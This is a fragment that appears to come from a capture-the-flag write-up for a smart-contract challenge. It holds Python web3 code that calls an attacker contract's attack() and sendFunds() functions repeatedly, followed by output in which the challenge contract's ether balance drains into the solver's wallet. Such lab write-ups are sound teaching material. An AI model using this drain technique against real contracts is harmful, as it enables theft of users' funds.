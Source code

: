 ```py
# attacker_contract_instance.functions.attack().transact({'from': wallet.address, 'value': web3.to_wei('6', 'ether')}) 
# attacker_contract_instance.functions.sendFunds().transact({'from': wallet.address})

# change receive function in attacker.sol

# run these second (may need to run multiple times)
# attacker_contract_instance.functions.attack().transact({'from': wallet.address, 'value': web3.to_wei('51', 'ether')})
# attacker_contract_instance.functions.sendFunds().transact({'from': wallet.address})

# run this when you have enough ether
# buy(3)

check_balances()

print(contract.functions.isChallSolved().call())
```

`output`:

```
Contract deployed at address: 0xBAE40D385476b445A6eB6baBF77c419d2093929C

ETH Balance of contract --> 2999.999350877388671875 ETH


ETH Balance of wallet --> 8.9758888 ETH


ETH Balance of contract --> 2899.999350877388671875 ETH


ETH Balance of wallet --> 108.97571124520142635 ETH

False
-------------------------------------------------------------------------
Contract deployed at address: 0x29D9784ff9D59329F1d47dedF59A4AB13592f3C1

ETH Balance of contract --> 2899.999350877388671875 ETH


ETH Balance of wallet --> 108.96368544520142635 ETH


ETH Balance of contract --> 999.999350877388671875 ETH


ETH Balance of wallet --> 2008.963450467450039426 ETH

False
-------------------------------------------------------------------------
ETH Balance of contract --> 999.999350877388671875 ETH


ETH Balance of wallet --> 2008.951424667450039426 ETH

b'\x8fd\xce\xeb\xfe\xcf\xa1I\r&R\xc3%r\xd5\xf7\x07!\x00wG%\xb4%\x96\xb4\xf6\xef\x03{Jg'

ETH Balance of contract --> 2336.999350877388671875 ETH


ETH Balance of wallet --> 671.951411260766097726 ETH

```